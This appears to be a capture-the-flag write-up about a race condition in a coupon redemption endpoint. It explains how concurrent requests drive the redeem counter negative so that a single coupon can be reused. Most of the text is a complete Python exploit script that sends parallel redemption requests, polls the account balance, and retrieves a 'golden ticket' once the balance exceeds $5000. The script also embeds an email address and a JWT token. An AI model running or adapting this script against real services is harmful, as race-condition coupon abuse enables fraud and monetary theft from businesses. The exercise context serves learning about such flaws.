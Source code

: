 #Abusing coupon redemption

Notice the parameters passed in the POST request to the endpoint "/coupon_redeem".
Drop this POST request to "/coupon_redeem" endpoint.
As it is mentioned in the challenge description:
"The issue is that the redeem operation is a bit slow and the developers hadn't placed any
checks to avoid any race conditions."

More specifically the redeem implementation as mentioned in the challenge description:
The redeem implementation works as follows:
1. It maintains a redeem count set to 1.
2. Once the token is redeemed the redeem count is reduced by 1, that is, redeem =
redeem - 1
3. If the redeem count is 0, the redeem code cannot be used further.
This could be leveraged as follows:
1. Send 2 (or more) asynchronous requests to "/coupon_redeem" endpoint to set the redeem count
-1.
2. Since the redeem count becomes negative, it would never become zero again since
each redeem request would decrease the redeem count.
3. Thus, the same redeem code could be used multiple times and thus the Golden Ticket
could be retrieved by getting the balance to exceed $5000.

The exploit to this would appear as below

Python Script:

```
import json
import grequests
import requests
from time import sleep
BASE_URL = "http://<target>"
def redeemAsync(email, token, code, nTimes):
global BASE_URL
headers = {
"Content-Type": "application/json"
}
data = {
"email": email,
"token": token,
"code": code
}
rs = (grequests.post(BASE_URL + "/coupon_redeem", data = json.dumps(data), headers = headers) for i
in range (nTimes))
return grequests.map(rs)
def redeem(email, token, code):
global BASE_URL
headers = {
"Content-Type": "application/json"
}
data = {
"email": email,
"token": token,
"code": code
}
resp = requests.post(BASE_URL + "/coupon_redeem", data = json.dumps(data), headers = headers)
#print resp.text
return resp.json()
def makeRequest(email, token, endpoint):
global BASE_URL
resp = requests.get(BASE_URL + endpoint, params = { "email": email, "token": token })
#print resp.text
return resp.json()
def getBalance(email, token):
return makeRequest(email = email, token = token, endpoint = "/balance")
def getGoldenTicket(email, token):
return makeRequest(email = email, token = token, endpoint = "/goldenticket")
if __name__ == "__main__":
email = "keked@yandex.ru"
token =
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzZWN1cmUtZXdhbGxldC5jb20iLCJpYXQiOjE1O
DM1MTIyMjAsImVtYWlsIjoiamFtZXNAc2VjdXJlLWV3YWxsZXQuY29tIiwiZXhwIjoxNTgzNTE0MDIwfQ.2H
GAoG5C0M1C4sDDYbyE4yT3cDbVkUfyuoxRaVvQOxo"
code = "RX100"
reqAsync = True
nTimes = 2
while True:
balanceResp = getBalance(email, token)
if "balance" in balanceResp:
print "-========================================-"
print "Current Balance:", balanceResp["balance"]
print "-========================================-"
if float(balanceResp["balance"]) > 5000:
goldenTicketResp = getGoldenTicket(email, token)
if "ticket" in goldenTicketResp:
print "Here's your Golden Ticket:", goldenTicketResp["ticket"]
break
redeemResp = None
# Redeem alteast two times in the first attempt!
if reqAsync:
reqAsync = False
redeemResp = redeemAsync(email, token, code, nTimes)
#print len(redeemResp)
#print redeemResp[0].json()
#print redeemResp[1].json()
# Checking the last response...
redeemResp = redeemResp[-1].json()
else:
redeemResp = redeem(email, token, code)
reqAsync = False
if "Error" in redeemResp:
print "Some error occurred!"
print "Please resolve it before continuing further...\n"
print "[ERROR]:", redeemResp["Error"]
print "\nExiting due to error in response!"
break
else:
# Avoids rate limit exceeded error!
sleep(0.2)
print redeemResp
```
